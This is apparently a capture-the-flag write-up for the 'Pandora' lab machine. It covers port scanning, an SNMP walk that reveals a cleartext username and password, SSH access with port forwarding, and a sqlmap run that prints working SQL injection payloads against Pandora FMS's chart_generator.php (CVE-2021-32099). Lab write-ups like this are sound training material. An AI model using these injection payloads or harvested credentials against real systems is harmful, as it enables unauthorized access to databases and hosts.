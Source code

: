 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

6. Scan
````
# sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*'
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 241 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://127.0.0.1:80/pandora_console/include/chart_generator.php?session_id=-3520' OR 1191=1191#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://127.0.0.1:80/pandora_console/include/chart_generator.php?session_id=' OR (SELECT 5536 FROM(SELECT COUNT(*),CONCAT(0x7162767671,(SELECT (ELT(5536=5536,1))),0x71707a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VqwU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1:80/pandora_console/include/chart_generator.php?session_id=' AND (SELECT 8615 FROM (SELECT(SLEEP(5)))jdWS)-- MiTJ
---
[22:44:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:44:07] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/127.0.0.1'
````


[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)
